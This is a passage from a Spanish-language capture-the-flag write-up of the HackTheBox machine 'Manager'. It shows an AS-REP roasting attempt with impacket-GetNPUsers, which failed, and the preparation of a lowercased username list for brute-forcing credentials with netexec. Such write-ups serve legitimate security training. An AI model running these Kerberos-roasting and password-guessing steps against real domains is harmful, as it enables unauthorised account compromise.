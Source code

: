 ### AS-REP Roast Attack (GetNPUsers) - \[FAILED]

Debido que disponemos de una potencial lista de usuarios válidos del dominio, podemos plantearnos en efectuar un **AS-REP Roast Attack** para solicitar un Ticket Granting Ticket (TGT). En este caso ningún usuario disponía de la configuración de (DONT\_REQ\_PREAUTH) de Kerberos

```bash
impacket-GetNPUsers -no-pass -usersfile users.txt manager.htb/ 2>/dev/null
```

<figure><img src="../../../.gitbook/assets/1423_vmware_NFlmuw9vcy.png" alt=""><figcaption></figcaption></figure>

### Credentials Brute Force (Netexec)

Probaremos de realizar ataque de fuerza bruta con **netexec** para probar si los usuarios disponen de contraseña su mismo nombre de usuario en minúsculas.

{% code overflow="wrap" %}
```bash
echo -e "Administrator\nGuest\nkrbtgt\nDC01$\nZhong\nCheng\nRyan\nRaven\nJinWoo\nChinHae\nOperator" | tr '[:upper:]' '[:lower:]' > usersLowerCase.txt

catnp usersLowerCase.txt
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/1424_vmware_N6eWckVwNz.png" alt=""><figcaption></figcaption></figure>
